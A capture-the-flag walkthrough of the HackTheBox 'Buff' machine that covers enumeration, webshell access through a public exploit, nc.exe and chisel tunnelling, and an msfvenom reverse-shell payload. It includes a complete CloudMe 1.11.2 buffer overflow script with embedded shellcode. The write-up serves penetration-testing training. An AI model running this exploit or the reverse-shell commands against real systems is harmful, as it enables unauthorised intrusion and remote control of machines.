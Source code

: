 ```yaml
---
title: HackTheBox - Buff
date: 2021-09-07 00:49:17 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [Gym Management System, searchsploit, nc.exe, port forwarding, chisel, buffer overflow, pwn, msfvenom, shellcode, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/buff/Buff.jpeg
---
```


![Buff](/assets/img/htb/machines/windows/easy/buff/Buff.jpeg)

Buff is a very nice OSCP style box, where I have to identify the web software running on the site, and exploit it using public exploits to get execution via webshell. For privesc, I'll find another service I can exploit using public exploits. I'm going to build with my own shell code to create my own shell, and set up the service so that I can connect just by listening on localhost. From there, the exploit script returns an administrator's shell. In Beyond Root, I'll go through the first script and do the exploit manually, and see how Defender blocks some of my attempts

## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Buff-full-port-scan.txt 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.18s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

### Port 8080 (HTTP)

![Desktop View](/assets/img/htb/machines/windows/easy/buff/8080.png)

Visiting port 8080 shows us a web page about fitness.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/contact.png)

The `/contact.php` page discloses that Gym Management Software is being used.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/searchsploit.png)

Using `searchsploit` we identified a potential exploit.

## Foothold

The exploit mimics a shell and allows us to send remote command.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/exploit.png)

We can upgrade our shell to a more stable shell by uploading `nc.exe` and executing it:

```bash
$ locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe
$ cp /usr/share/windows-resources/binaries/nc.exe .
```

![Desktop View](/assets/img/htb/machines/windows/easy/buff/more_stable_shell.png)

![Desktop View](/assets/img/htb/machines/windows/easy/buff/nc.png)

## Privesc

Using `winPEAS` we can see that there is an app called `CloudMe` which is running on local port **8888** but is not running on remote port.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/cloudme_tcp.png)

Plus, if we look at `C:\Users\shaun\Downloads\`, we can find a binary file called `CloudMe_1112.exe`:

```powershell
PS C:\Users\shaun\Downloads> dir
dir


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```

In order to transfer it to our local machine, we can take advantage of the current web server:

```cmd
C:\Users\shaun\Downloads>copy CloudMe_1112.exe C:\xampp\htdocs\gym\                                                                                 
copy CloudMe_1112.exe C:\xampp\htdocs\gym\
        1 file(s) copied.
```

> **Note**: following [**Stack-Based Buffer Overflows on Windows x86** course on Academy](https://academy.hackthebox.eu/course/preview/stack-based-buffer-overflows-on-windows-x86) will guide you on writing an exploit for this program.

### Port forwarding with `chisel`

`CloudMe` is listening only on localhost.

If we want to make this port available to our machine, we can use a **SOCKS proxy** such as `Chisel`. Go to the [release page](https://github.com/jpillora/chisel/releases) and download the last executables for windows and linux amd64.

- First, on our Kali machine, we have to set up the Chisel server, listening on any port (here 9999):

    ```bash
    $ /chisel_1.7.6_linux_amd64 server -p 9999 --reverse
    2021/09/07 00:09:35 server: Reverse tunnelling enabled
    2021/09/07 00:09:35 server: Fingerprint EFwUZIpNMK9gCrrI3aubBlSlDShKhEzk0ophq0C08S4=
    2021/09/07 00:09:35 server: Listening on http://0.0.0.0:9999
    ```

- Then, on the target machine, tunel the port 8888 to our machine:

    ```cmd
    C:\>.\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    .\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    2021/09/06 23:17:24 client: Connecting to ws://10.10.14.12:9999
    2021/09/06 23:17:26 client: Connected (Latency 188.0315ms)
    ```

### Exploitation

Looking for `CloudMe` with `searchsploit`, we can find multiple exploits:

![Desktop View](/assets/img/htb/machines/windows/easy/buff/cloud_me_exploits.png)

The first one will worked just fine but we have to replace the shellcode. `msfvenom` can help us to do that:

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
```

Then we can edit the exploit source file as follows:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket
import sys

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
payload =  b""
payload += b"\xb8\x45\x01\x16\x38\xd9\xed\xd9\x74\x24\xf4\x5f"
payload += b"\x33\xc9\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\x02"
payload += b"\x0f\xf4\xcd\x70\xe7\x7a\x2d\x88\xf8\x1a\xa7\x6d"
payload += b"\xc9\x1a\xd3\xe6\x7a\xab\x97\xaa\x76\x40\xf5\x5e"
payload += b"\x0c\x24\xd2\x51\xa5\x83\x04\x5c\x36\xbf\x75\xff"
payload += b"\xb4\xc2\xa9\xdf\x85\x0c\xbc\x1e\xc1\x71\x4d\x72"
payload += b"\x9a\xfe\xe0\x62\xaf\x4b\x39\x09\xe3\x5a\x39\xee"
payload += b"\xb4\x5d\x68\xa1\xcf\x07\xaa\x40\x03\x3c\xe3\x5a"
payload += b"\x40\x79\xbd\xd1\xb2\xf5\x3c\x33\x8b\xf6\x93\x7a"
payload += b"\x23\x05\xed\xbb\x84\xf6\x98\xb5\xf6\x8b\x9a\x02"
payload += b"\x84\x57\x2e\x90\x2e\x13\x88\x7c\xce\xf0\x4f\xf7"
payload += b"\xdc\xbd\x04\x5f\xc1\x40\xc8\xd4\xfd\xc9\xef\x3a"
payload += b"\x74\x89\xcb\x9e\xdc\x49\x75\x87\xb8\x3c\x8a\xd7"
payload += b"\x62\xe0\x2e\x9c\x8f\xf5\x42\xff\xc7\x3a\x6f\xff"
payload += b"\x17\x55\xf8\x8c\x25\xfa\x52\x1a\x06\x73\x7d\xdd"
payload += b"\x69\xae\x39\x71\x94\x51\x3a\x58\x53\x05\x6a\xf2"
payload += b"\x72\x26\xe1\x02\x7a\xf3\xa6\x52\xd4\xac\x06\x02"
payload += b"\x94\x1c\xef\x48\x1b\x42\x0f\x73\xf1\xeb\xba\x8e"
payload += b"\x92\x19\x31\x9e\x6e\x76\x47\x9e\x7f\xda\xce\x78"
payload += b"\x15\xf2\x86\xd3\x82\x6b\x83\xaf\x33\x73\x19\xca"
payload += b"\x74\xff\xae\x2b\x3a\x08\xda\x3f\xab\xf8\x91\x1d"
payload += b"\x7a\x06\x0c\x09\xe0\x95\xcb\xc9\x6f\x86\x43\x9e"
payload += b"\x38\x78\x9a\x4a\xd5\x23\x34\x68\x24\xb5\x7f\x28"
payload += b"\xf3\x06\x81\xb1\x76\x32\xa5\xa1\x4e\xbb\xe1\x95"
payload += b"\x1e\xea\xbf\x43\xd9\x44\x0e\x3d\xb3\x3b\xd8\xa9"
payload += b"\x42\x70\xdb\xaf\x4a\x5d\xad\x4f\xfa\x08\xe8\x70"
payload += b"\x33\xdd\xfc\x09\x29\x7d\x02\xc0\xe9\x9d\xe1\xc0"
payload += b"\x07\x36\xbc\x81\xa5\x5b\x3f\x7c\xe9\x65\xbc\x74"
payload += b"\x92\x91\xdc\xfd\x97\xde\x5a\xee\xe5\x4f\x0f\x10"
payload += b"\x59\x6f\x1a"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We forwarded the port 8888 of the target on ou port 8888, now we just have to run the exploit:

![Desktop View](/assets/img/htb/machines/windows/easy/buff/flag.png)

___

## Useful links

- [Chisel](https://github.com/jpillora/chisel)
